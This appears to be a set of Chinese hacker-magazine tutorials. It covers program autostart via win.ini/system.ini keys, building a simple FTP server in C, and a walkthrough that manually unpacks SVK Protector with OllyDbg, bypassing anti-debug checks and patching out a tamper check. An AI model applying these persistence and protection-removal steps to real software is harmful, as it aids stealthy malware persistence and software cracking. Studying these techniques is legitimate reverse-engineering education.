

程序示例 2：通过修改 win.ini 中的字段 [windows] 中的键 load 或 run，或者是为 system.ini 中的字段 [boot] 中的键 shell 增加值，可以达到设置程序自动运行的目的。假设我们要自动运行 notepad.exe，修改后的 win.ini 或 system.ini 文件像这样就可以：

```ini
win.ini
[windows]
load=c:\winnt\notepad.exe
run=c:\winnt\notepad.exe

system.ini
[boot]
shell=c:\winnt\explorer.exe c:\winnt\notepad.exe
```

> **忠告**
>
> system.ini 文件的修改要特别注意。如果你单纯改成 shell=c:\winnt\notepad.exe，则不能首先运行 explorer.exe，很明显你将看不到桌面和任务栏。笔者在做实验时就曾因为粗心造成了这样的后果，不过不用害怕，只要你用我们下面提供的程序，将它修改过来就可以了。默认时，系统在 system.ini 中的 [boot] 下是 shell=c:\winnt\explorer.exe。很多非法程序就是通过修改这两个文件来达到自启动的目的的。

下面这个程序可以在杂志光盘相关栏目中找到，名称为“AutoPlay”，使用 VC++ 6.0 写成，核心程序源代码如下：

```cpp
void CAutoRunDlg::OnBrowse()
```

```cpp
// 只浏览 exe 文件
CFileDialog fileDlg(TRUE, _T("EXE"), _T("*.exe"), OFN_HIDEREADONLY | OFN_OVERWRITEPROMPT, _T("Executable Files (*.exe)|*.exe||"));

// 显示打开文件的对话框
// 当操作者选择 OK 时，程序取得选择文件的全路径名（包括文件的路径及文件名称），并将相应的数值传输给相关的控件变量。
if (fileDlg.DoModal() == IDOK)
{
    m_strFileName = fileDlg.GetPathName();
    // 将变量中的数值传输给控件显示出来。
    UpdateData(FALSE);
}

void CAutoRunDlg::OnApply()
{
    // 更新数据
    UpdateData(TRUE);
    // 写入 ini 文件
    LPCTSTR filename;
    filename = m_strFileName;
    WritePrivateProfileString(_T("windows"), _T("load"), filename, _T("c:\\winnt\\win.ini"));
}
```

您如果要更改 system.ini，可以将 `WritePrivateProfileString(_T("windows"), _T("load"), filename, _T("c:\\winnt\\win.ini"));` 改为 `WritePrivateProfileString(_T("boot"), _T("shell"), filename, _T("c:\\winnt\\system.ini"));`，并且在输入文件名时输入 `c:\winnt\explorer.exe c:\winnt\notepad.exe`。

写到这里，本文的意图基本达到，如果您可以把某些代码亲自实现，相信读者会有比较大的收获。

> **后记**
>
> 本文仅仅从开机之中解决启动的问题。对程序的示例演示，相信您可以掌握这种技术了。如果您对其他一些自动加载技术感兴趣，可以去看一下相关的资料。

Socket：现在没有用过 FTP 的人很少，但是真正知道 FTP 详细原理的朋友绝对不是太多，今天我们就从 FTP 编程角度出发来分析 FTP 的具体原理，相信对于大多数喜欢编程的朋友们来说，可以好好地了解下相关的原理，而对于那些已经对 FTP 有所了解的朋友来说，同样也可以借此机会理一理自己的思路，温故方能知新……

适合对象：编程爱好者

前置知识：C 语言基础知识，FTP 基础知识

## 全面透析 FTP



Serv-U 很多朋友都用过吧？功能强大，使用方便，不过这类商业软件大多复杂庞大，看着吓人。其实，FTP 协议是比较简单的。如果了解了协议，写一个简单的单个 EXE 的 FTP 服务器不是很难，用在小场合也是非常方便的（脚本小子：两眼放光 ing！嘿嘿，蝴蝶 mm 的机器又会多一样东西咯！）。太多的原理性的东西我不多说了，毕竟是程序性的文章，想详细知道的，可以去看《TCP/IP 详解》的 FTP 相关章节。

> 鉴于篇幅关系，本文中的代码我就不加详细注释了，代码部分均不完整，变量或函数可能非法或没有声明。杂志光盘上附有完整源码，建议对照阅读，编程基础还是要的，代码完全用 C 和 SOCKET API 写。

## 基础

先一起来把理查德爷爷的东西简单地温习一遍：FTP（File Transfer Protocol，文件传输协议）是 Internet 网络上使用最频繁的协议之一（早期非常使用频繁，后来被 HTTP 抢去了头座）。FTP 的命令数量非常之多，功能也极为强大，协议底层也很复杂，再加上 FTP 使用的是稳定的 TCP 协议（TFTP 使用的是不稳定的 UDP），有很高的传输质量，所以 FTP 也注定了是大文件传输、大吞吐量的数据交换的首选途径。

FTP 一般是以客户机／服务器模式存在的，在数据连接和命令连接的基础上传输文件数据。我们今天要写的就是一个基于 FTP 协议的 FTP 服务器。

本文中的 FTP 服务器基本实现了文件的上传／下载，支持断点续传，支持 PORT 和 PASV 模式，并且支持相应的文件操作和目录操作。

## 建立环境

我们要构建的是一个 FTP 服务器，众所周知，FTP 服务器工作的时候占用的知名端口 21（当然，你也可以不要这个端口）：

```c
sockAddr.sin_family = AF_INET; // internet 模式
sockAddr.sin_port = htons(21); // 端口 21
sockAddr.sin_addr.S_un.S_addr = INADDR_ANY; // 接受所有的地址
```

为了不占用 21 端口，为后续的用户做准备，我们用建立线程的方式，对每一个申请连接的 FTP 客户做服务。为了实现多用户，用了固定的几个（64）全局结构变量。也可以用数据结构上的链表的方式动态地加入用户结构：

```c
beginSock = accept(FTPServer, (struct sockaddr *)&client, &clinttemp);
// 等待用户连接
if (beginSock == INVALID_SOCKET) return 1;
DWORD funid;
if (CreateThread(NULL, 0, ThreadFunctheFtp, (LPVOID)beginSock, 0, &funid) == 0)
// 开始建立 FTP 用户线程
```

建立了这个环境后，等待客户端的到来，接下来的就是 FTP 的协议了。

## 协议二 用户验证

首先，服务器会发送一些欢迎信息，这些信息可以是服务器版本的提示，也可以是其他的信息。但必须要以“220”起头（这些代码的含义可以参考相关文档），信息可以多行，要注意的一点是，数据以 CRLF（回车换行）为结束“\r\n”。

```c
SOCKET inFtpSock = (SOCKET)lpParam;
renftpmsg(inFtpSock, "220 Zvrop FTP server ready.\r\n");
```

renftpmsg 函数就看光盘上的源代码了，是发送指定信息给指定的 FTP 客户端的函数。下面再来就是判断用户名和密码了，这些地方不是规定的。一个 strcmp 就可以解决了，我想说的是协议：一般情况是，服务器发完 220 之后，客户端就会发送一个用户名的报文——以“USER”打头，如（“USER zvrop\r\n”）。

```c
recvnum = recv(inFtpSock, buf, 1023, 0);
if (recvnum <= 0) return 1;
if ((strncmp(buf, "USER", 4)) == 0)
{
    if ((renc = chkuser(buf + 5)) < 0) // chkuser 是判断用户名函数
```

如果用户名正确（chkuser 返回正常），那么服务器会给客户端响应一个报文（“331 User name okay, need password.\r\n”）信息，告诉客户端，你可以输入密码了：

```c
renftpmsg(inFtpSock, "331 User name okay, need password.\r\n");
```

这时候，客户端必须返回一个报文（这个报文是以 PASS 打头，如“PASS 12345\r\n”），其用来提供用户的一个密码进行验证。

这个密码的验证和用户名的差不多，两段验证代码见光盘。

如果用户提供的用户名或者密码不正确，服务器将返回 530 错误代码，并关闭对应的连接：

```c
renftpmsg(inFtpSock, "530 LOGIN ERROR!\r\n");
// 或者为：renftpmsg(inFtpSock, "530 PASSWORD ERROR!\r\n");
closesocket(inFtpSock);
```

如果用户名和密码正确，则返回 230 报文：

```c
sprintf(msg, "230 User logged in %s.\r\n", LoginName);
renftpmsg(inFtpSock, msg);
```

到了这里，用户已经通过了验证，可以开始服务了。

值得注意的是，FTP 的用户名和密码在传输的过程中始终保持明文（实际上任何数据都没有加密），如果用一个 Sniffer 记录带有“user”、“pass”关键字的数据包，那么很容易就可以得到别人的 FTP 登录密码了。

> 编者按：
>
> 在 2003 年第 9 期《嗅探技术对菜鸟的贡献》一文曾对这些问题作了具体分析，大家也可以参考那篇文章。

## 协议 命令和传输方式

现在介绍一下我们的 FTP 服务器要支持的内容，注意，本文要写的 FTP 服务器，支持标准的 FTP 报文格式，对于用 WinInet 函数写的 FTP 客户端，那还要做一些调整。以下是一些标准命令列表：

| 命令 | 简介 |
|---|---|
| LIST | 列目录 |
| PORT | PORT 传输模式的传输方式，这个是比较早期的传输方式，兼容微软命令行下的 FTP 客户端就是用这种方式 |
| PASV | PASV 传输模式，现在大多数 FTP 客户端使用的传输方式 |
| CWD | 进入某个目录，切换某个目录 |
| CDUP | 命令来返回上层目录，有的 FTP 客户端用 "CWD .." |
| PWD | 返回当前目录，大多数 FTP 客户端用来确认服务器还能响应（预防超时） |
| TYPE | 设置传输类型 |
| STOR | 上传文件 |
| REST | 一般用于断点续传，其后跟着设置文件从开头的偏移量 |
| RETR | 下载文件命令 |
| RNFR/RNTO | 用于更改文件夹或者文件名 |
| DELE | 删除文件 |
| RMD | 删除文件夹 |
| MKD | 建立文件夹 |
| QUIT | 退出 |

PORT 和 PASV 这两种方式又叫主动和被动方式，PORT 方式下，客户端主动打开一个数据端口，告知服务器这个端口。服务器连接上客户端的那个端口，开始数据传输（可以看出，这个方法的缺点是，如果客户端在内网，服务器就不能连接客户端了，这个时候就需要用 PASV 方式）。客户端发送 PASV 命令说明它需要用 PASV 方式传输，这个时候服务器就响应一个信息，告知客户端自己已经打开的端口，等待客户端连接、传输数据。心细的朋友就会觉得这两种方式都不怎么好，都存在数据劫持的可能性。

## 传输模式

前面已经说过了 PASV 和 PORT 模式，下面说说具体的传输步骤。

一般的 FTP 客户端在传输文件的命令前（STOR 或者 RETR），会发送一个特殊的命令要求服务器再建立一个连接用来专门传输文件数据（也就是 PASV 和 PORT 命令）。这样，命令连接（也就是发送 STOR 和 RETR 命令的连接）的端口就可以独立出来处理那些传输过程中的错误、传输开始、结束等等。当文件传输结束，需要关闭数据连接（由命令连接执行），但是命令连接仍然继续，直到用户退出会话为止。数据连接是每执行一次数据传输就建立一次的（可以用 CUTEFTP 看到，传输文件的时候，PASV 字样满天飞）。

### 1．PORT 模式

这个模式中，客户端主动打开本地端口后，发送给服务器本机 IP 和端口，数据报文是这样：

“PORT 127,0,0,1,32,279\r\n”（注意，里面是逗号）。

前四个是 IP，后面两个是端口。

这样计算：第五个 * 256 + 第六个 = 32*256+279=8471（嘿嘿，我的生日）。

当客户端发过来这个命令的时候（PORT 命令），FTP 服务器就要做好解析（就是把 IP 和端口算出来），然后按这个地址连接过去：

```c
struct sockaddr_in dataAddr;
dataAddr.sin_family=AF_INET;
dataAddr.sin_port=htons(8471);
dataAddr.sin_addr.S_un.S_addr=inet_addr(127.0.0.1);
if (connect(Lftp->DataSock,(struct sockaddr FAR*)&dataAddr,sizeof(dataAddr))
    == SOCKET_ERROR)// 连接客户端
    sprintf(msg,"425 Cannot open data connection IP:%s PORT:%d [can't connect]\r\n",createip,createport);
```

这里可以看到，这个连接过程中一旦出现错误，就要返回 425 报文，告诉客户端，我的数据端口打开失败了，你可以关闭数据端口了。

```c
else
    sprintf(msg, "200 Port command okay IP %s PORT %d.\r\n", createip, createport);
rentftpmsg(Lftp->MsgSock, msg);
```

```c
SendRpasv(createport, Lftp);
}
ext: rentftpmsg(Lftp->MsgSock, "425 Cannot open data connection.\r\n");
```

要不然，就发送 200 命令，告诉客户端，完成连接，准备开始传输文件。（待会还有一个命令是说开始传输的。）

至此，PORT 方式打开数据连接完成，下面就是等待命令到来开始用这个连接传输命令了。

### 2．PASV 模式

同样是打开数据连接，我认为 PASV 方式比较复杂。

PASV 操作下，客户端发过来的是一个 PASV 命令，这个时候，服务器必须自己打开本地端口，并计算自己的 IP、端口，转换成报文，发出去（报文如：“227 Entering Passive Mode (127,0,0,1,32,279)\r\n”）：

这个报文后面的几个 IP 和端口信息和 PORT 收到的差不多，只不过，这里刚好反过来，你必须发送这个给客户端了，代码如下：

```c
short createport=8471;
struct sockaddr_in dataAddr;
dataAddr.sin_family=AF_INET;
dataAddr.sin_addr.S_un.S_addr=INADDR_ANY;
dataAddr.sin_port=htons(createport);//本地监听端口
bind(Lftp->tempSock, (LPSOCKADDR)&dataAddr, sizeof(dataAddr))==SOCKET_ERROR)
    goto ext;
if(listen(Lftp->tempSock, 5)!=SOCKET_ERROR)//监听
    if(CreateThread(NULL, 0, FtpAcceptIn, (LPVOID)Lftp, 0, &funid)==0)
    {
        closesocket(Lftp->tempSock);
        goto ext;
    }
```

这里可以看到，如果任何的步骤建立不成功，也是返回 `"425 Cannot open data connection.\r\n"`，否则，返回：

```c
sprintf(remsg, "227 Entering Passive Mode (%s,%s,%s)\r\n", MYIP, port1, port2)
```

这里还看到一个线程 `FtpAcceptIn`，这个线程里面就只提供 accept 函数的封装，用线程的目的就是为了在建立数据连接的时候必须返回到命令连接的控制台。否则，accept 阻塞了就无法收到下一个命令了（当然，你也可以找更好的方法），代码见光盘。

经过上面的数据连接建立后，大多都可以得到一个数据连接的 socket 句柄，我们就可以传输数据了。

在这个已经建立的数据连接传输数据之前，必须还有一个用来告诉数据连接开始接受数据的报文，也就是 150 报文（“150 Opening ASCII NO-PRINT mode data connection.\r\n”），这个命令由命令连接发送，发送了之后，客户端就把之后收到的报文当作有用数据。在数据传输完毕的时候，必须关闭数据连接，在关闭数据连接之前，必须再发送一个告诉客户端数据连接结束的报文，也就是 226 报文（“226 Transfer finished successfully. Data connection closed.\r\n”）。这样，才能保证一个数据连接的完整。可以再次看到，数据连接只是负责传输数据而已。

## 其他命令

LIST 命令用来传输列表，这里比较关键的是文件列表的格式，必须用标准的 *nix 格式，才能在大多数图形 FTP 客户端下显示出来：

举个例子：

```text
-rw-r--r--  1 zvrop  nobody  9012
Oct 10 18:36 test.exe
```

- 0～9 个字符是 *nix 类型的文件属性，其中 0 位置的字符代表这个对象是文件夹（D）、关联文件（L）或其他文件（-）。后面每 3 个为一组：
  1. 1～3：文件拥有者对此文件权限
  2. 4～6：同组者对此文件的权限
  3. 7～9：其他人对此文件的权限

其中，x 为可执行，r 为可读，w 为可写，- 为不具备该权限，例如上例中其他人和同组者都只有对这个文件读权限。

> **编者注：**
>
> 后面各组中的 3 个字符依次代表权限：rwx；如果用 “-”，则说明不具备该权限。譬如，“rw-”则说明可读可写不可执行。

接下来的分别是这个文件的类型（一般文件夹为 2，其他为 1）、文件拥有者、文件拥有者所在组、文件大小、月份（英文缩写）、日期、时间（注：如果超过 1 年日期那里就是年份）和文件名。

其他的文件操作（DELE、RNFR、RNTO、RMD、MKD）命令处理就请大家自己看代码了。如果命令成功完成，那么返回 200 报文就行了（`"200 command okey.\r\n"`），失败则返回 450（`"450 Requested file action not taken.\r\n"`）或者 5xx 报文都可以，具体说明可以看协议介绍。

还有 QUIT 命令，该命令用来关闭对话。写一个扫尾函数，清空所有的句柄和变量。完了后发送 221、200 等报文都可以（`"221 See you, Bye"`）。

最后还需要说明一下的是 REST 报文，这个报文关系到断点续传的问题。说简单也很简单，因为此报文用 REST 打头，后面跟着就是一个数值，如（`"REST 100\r\n"`），那么可以用一个全局变量承接这个数值，然后返回 350 报文，代码如：

```c
Lftp->contData=atoi(buf+5);
```

```c
sprintf(remmsg,"350 Restarting at %d\r\n",Lftp->contData);
```

这里的 contData 是一个全局用户数组里面专门用来存放断点数据的变量。

这样客户端就知道，服务器已经接受了断点续传，接下来会发送一个和文件有关的命令，比如 STOR、RETR 等等。

这个时候，在服务器取文件之前需要判断一下，contData 变量是否为 0，否则，文件指针偏移相应的长度，代码如下：

```c
if(Lftp->contData!=0)
{
    DWORD dwSpi=SetFilePointer(rFile,Lftp->contData,0,FILE_BEGIN);
    // 设置偏移指针
    if(dwSpi!=Lftp->contData)
    {
        renftpmsg(Lftp->MsgSock,"553 Requested action not taken. File name not allowed.\r\n");
        // 出错的话，返回553
        goto errorout2;
    }
    Lftp->contData=0;
}
```

这样，再传输的话，就是从上次断点的位置传输了。

由于篇幅关系，文章到这里也就基本结束了。更多的内容，请大家参考光盘中具体代码。

> **后记：**
>
> 虽然我们已经基本实现了 FTP 服务器的功能，但是，真正好的 FTP 服务器要考虑的事情非常多，专业的 FTP 软件有非常好的实时性，也有非常强大的排错功能，毕竟它们需要几十小时的无错误运行。还要考虑向下兼容的方式和复杂多样的传输数据类型，单单是实现全部的 FTP 命令，这本身就不是一两千行代码能够完成的。FTP 复杂的功能就是一本书的分量。希望你能参照本文写出一个较为实用的 FTP 服务器。

现在的程序为防止被修改几乎都加了壳，虽然有很多自动脱壳程序，但是某些新壳、变形壳是脱壳机所无能为力的。因此，手动脱壳成为 Cracker 必须掌握的技能之一。下面的文章演示了在 WinXP 系统平台上用 OllyDbg 手动对 SVK Protector DEMO 1.32 主程序脱壳和修复的过程，希望能给脱壳爱好者们一点参考。

**适合对象：** 对脱壳感兴趣的读者

**前置知识：** 简单的脱壳知识，脱壳调试工具的使用

## 用 OllyDbg 对 SVK Protector 主程序手动脱壳和修复

文／图 fly[Nuke Group]

某日研究 SVK Protector DEMO 1.32 这个软件的防御措施（下载页面：http://www.pediy.com/tools/packers.htm，1.8MB），发现用这个 DEMO 版以及 ZILOT 破解版加壳的程序很容易被脱壳，但是真正用注册版的 SVK 加壳的程序保护强度是很大的，比 ACProtect 还要难缠！我这次脱的是 SVK Protector DEMO 1.32 版，找 OEP 的方法只适用于对付用 ZILOT 破解版和 DEMO 版加壳的程序。至于后面修复丢失代码的方法或许还稍微有点参考价值。本次调试环境是 WinXP、OllyDbg 1.09、PEiD、LordPE、ImportREC、WinHex。

```asm
004C9014  64:A0 23000000    mov al, byte ptr fs:[23]
; Win 98 下调试注意这个值，应该是 AL=0
004C901A  EB 03             jmp short Svkp.004C901F
004C901F  84C0              test al, al
004C9021  EB 03             jmp short Svkp.004C9026
004C9026  75 67             jnz short Svkp.004C908F
; 在 Win 98 下调试改变 Z=1，使这里不跳！跳则 OVER!
```

下面就是反跟踪。调用 kernel32._lopen 检测有无危险产物，其实和 CreateFileA 的效果是一样的：

### 寻找 OEP

先用插件 IsDebug 1.4.dll 去掉 OllyDbg 的调试器标志，设置忽略除了“内存访问异常”之外的所有其他异常。

用 OllyDbg 手动脱壳，老规矩，载入后弹出“是压缩代码——要继续进行分析吗？”点“否”。

```asm
004C9000  60               pushad
; 进入 OD 后断在这！
004C9001  E8 00000000      call svkp.004C9006
004C9006
```

```asm
004C902D  8DB5 C5020000    lea esi, dword ptr ss:[ebp+2C5]
004C9033  56               push esi
004C9034  8006 44          add byte ptr ds:[esi], 44
004C9037  46               inc esi
004C9038  E2 FA            loopd short svkp.004C9034
```

## 被检测的工具：

```text
004C92C6  5C 2E 5C 54 52 57 00 5C 5C 2E 5C
53 49 43 45 00    \\.\TRW  \\.\SICE
004C92D6  5C 5C 2E 5C 4E 54 49 43 45 00 5C
5C 2E 5C 46 49    \\.\NTICE  \\.\FI
004C92E6  4C 45 56 58 44 00 5C 5C 2E 5C 46
49 4C 45 4D 4F    LEVXD  \\.\FILEMO
004C92F6  4E 00 5C 5C 2E 5C 52 45 47 56 58
44 00 5C 5C 2E    N  \\.\REGVXD\\
004C9306  5C 52 45 47 4D 4F 4E 00 E8 00 00
00 00 81 2C 24    \REGMON

004C903A  8B8D C1020000          mov ecx,
dword ptr ss:[ebp+2C]
004C9040  5E                      pop esi
004C9041  55                      push ebp
004C9042  51                      push ecx
004C9043  6A 00                   push 0
004C9045  56                      push esi
004C9046  FF95 0C610000           call dword
ptr ss:[ebp+610C] ; kernel32._lopen
004C904C  59                      pop ecx
004C904D  5D                      pop ebp
004C904E  40                      inc eax
004C904F  85C0                    test eax, eax
004C9051  75 3C                   jnz short
svkp.004C908F
004C9053  803E 00                 cmp byte
ptr ds:[esi], 0
004C9056  74 03                   je short svkp
004C9058  46                      inc esi
004C9059  EB F8                   jmp short
svkp.004C9053
004C905B  46                      inc esi
004C905C  E2 E3                   loopd short
svkp.004C9041   //循环检测。为何不把 OllyDbg
加入黑名单？
```

下面用 F9 和 Shift+F9 运行，中断在异常处。注意：程序有很多地方是反单步跟踪的。

```text
07B40492      8900                mov dword
ptr ds:[eax],eax          //第1次异常
07BA03E1      8900                mov dword
ptr ds:[eax],eax          //第2次异常
07BA137F      6285 0E0B0000       bound eax,
qword ptr ss:[ebp+B0E]    //第3次异常，过了
这个异常后弹出 Trial 的保护画面，Try Me 后返回
07BABC57      CD 01               int 1  //第4次异常
```

此时按“Ctrl+F”快捷键在“整个区段”查找命令：`add edx, dword ptr ss:[ebp]`

```text
07BBB8A9      0355 00             add edx,dword
ptr ss:[ebp]          //找到这里！F2 此处下断
Shift+F9 断在此处！
//EDX=00001000 + 00400000=00401000  这就是
OEP 值！
```

按“Ctrl+F”快捷键，在“整个区段”查找命令：`mov dword ptr ss:[esp+1C], edx`

```text
07BBB920      895424 1C           mov dword ptr
ss:[esp+1C],edx        //找到这里！F2 此处下
断！F9 断在此处！
//[esp+1C]=[0012FFBC]=EDX=00401000
```

程序返回的是 OEP+1 的地方。想看看是如何返回的吗？

```text
Ctrl+F 在 07BBB920 下面查找命令：inc dword
ptr ss:[esp]

07BBB9EE      FF0424              inc dword
ptr ss:[esp]        //找到第1个
07BBB9F1      EB 02               jmp short
07BBB9F5

07BBBB20      FF0424              inc dword
ptr ss:[esp]        //找到第2个
07BBBB23      EB 02               jmp short
07BBBB27

07BBBBC6      FF0424              inc dword
ptr ss:[esp]        //找到第3个
```

```text
07BBBBC9        EB 02                  jmp short
07BBBBCD

07BBBDAF        FF0424                 inc dword ptr ss:[esp]    // 找到第4个
// 这里单断2次后看见 OEP 值 00401000
07BBBDB2        EB 02                  jmp short

07BBBDB6        C3                     retn
// 返回至 00401001
```

```text
00401028        FF15 00524C00         call dword ptr ds:[4C5200]

这里出错，应是 ExitProcess
00401086        FF15 F8514C00         call dword ptr ds:[4C51F8]

===> 这里出错，应是 GetModuleHandle
```

重新载入程序，我们已经知道 OEP，以及程序返回的是 401001，所以在内存 401001 处的几个字节下内存访问断点，程序会中断在 OEP 的下面代码处。用 LordPE 纠正 ImageSize 后完全 DUMP 这个进程，后来我为此付出了代价 :-(

## 修复脱壳后的程序

运行脱壳后的程序弹出没有找到注册文件，然后退出。OllyDbg 载入脱壳后的程序看看。

```text
00401000        68 1DF34B00           push dumped.004BF31D
00401005        FF15 1C524C00         call dword ptr ds:[<&kernel32.GetVersionExA>]
0040100B        85C0                  test eax,eax
0040100D        75 1F                 jnz short dumped_0040102E

===> 把这里改为 JMP 0040102E 就跳过出错提示了。其实是程序发现被脱壳了。
```

## 修复输入表

我曾经跟踪过几个 SVK Protector 加壳的实验品，发现也像 ASP 那样有些特殊函数，是 ImportREC 识别不出来的。常见的特殊函数有：GetVersionExA、GetModuleHandleA、ExitProcess 等，并且有时运行 ImportREC 竟然无法找到 SVK 加壳程序的进程！我的办法是：去你的 ImportREC 文件夹下，把 ImpREC.ini 改名或删除。呵呵，现在运行 ImportREC 已经能够看见目标进程啦。选择这个进程，把 OEP 改为 00001000，点 IAT AutoSearch，点“Get Import”，函数无效；用“追踪层次 1”修复大部分，还有 3 个函数无效；用 SvkpIAT.dll 插件识别出 GetVersionExA 和 GetModuleHandleA，最后一个就是 ExitProcess 了。好了，输入表修复结束！

还原被壳抽取的关键代码比较麻烦，这是 SVK Protector 做得比较出色的部分。

ImportREC 未识别的函数：

```text
0: 000C51F8   ?   0000   07D333DD
0: 000C5200   ?   0000   07D32070
0: 000C521C   ?   0000   07D37656

00401005       FF15 1C524C00         call dword ptr ds:[4C521C]
===> 这里出错，应是 GetVersionExA
```

> "If You are there. You are a good cracker, but this is only the beginning"

这是调试时从代码中发现的作者的留言。的确，偶的噩梦开始啦……

可以正常运行了，但是执行加壳功能时程序自动退出！分别载入原程序和脱壳后的程序比较跟踪，原来许多关键功能的代码部分均被分块加密了！执行时再从壳里面还原，执行完后又清除。偶脱壳时没有这部分代码，当然无法执行关键功能了。有闷，这么多代码要手动还原，比 ASProtect、ACProtect 等猛壳还变态！

让壳和被加壳的程序融为一体、互不分离，可谓是壳的美妙理想，是许多壳孜孜以求的境界！相对而言，SVK Protector 在这方面变形技术做得比较好。

整理的丢失代码总序表：



```asm
0041A830  90    nop
0041A831  90    nop
0041A832  90    nop
0041A833  90    nop
0041A834  90    nop
0041A835  90    nop
0041A836  90    nop
0041A837  90    nop
0041A838  C3    retn
```

当我费了九牛二虎之力熬了两个通宵把这些被壳抽取的代码统统还原后，可以正常运行并且能够加壳了。正想去休息时却发现被加壳后的程序居然无法运行，我苦笑连连，SVK Protector 太厉害了！重新分析若干次，无果。却突然想起以前用原版调试时加壳的程序也是无法运行！于是关掉所有的调试器，运行 SVK Protector 原程序，然后直接用 LordPE 纠正 ImageSize 后完全 DUMP 这个进程。接着修复输入表，把这些丢失代码再次全部还原，终于正常啦！

### 1. 第一处被抽取的代码

```asm
0041A731: FF25 D13AD307    jmp dword ptr ds:[7D33AD1]    // 被壳还原！
07D3578B  F3:A4            rep movs byte ptr es:[edi], byte ptr ds:[esi]    // 这里对0041A741至0041A828之间的代码进行还原！
```

好了，代码还原后，部分脱壳：0041A741；大小：0041A828-0041A741=E7；存为：0041A741.dmp；用 WinHex 把这段代码写入脱壳后程序的相应位置！改 0041A731 后面全部 NOP：



### 2. 第二处被抽取的代码

```asm
0041A82D  FF25 1B5AD307    jmp dword ptr ds:[7D35A1B]
这段代码还原成：
0041A82D  90    nop
0041A82E  90    nop
0041A82F  90    nop
```

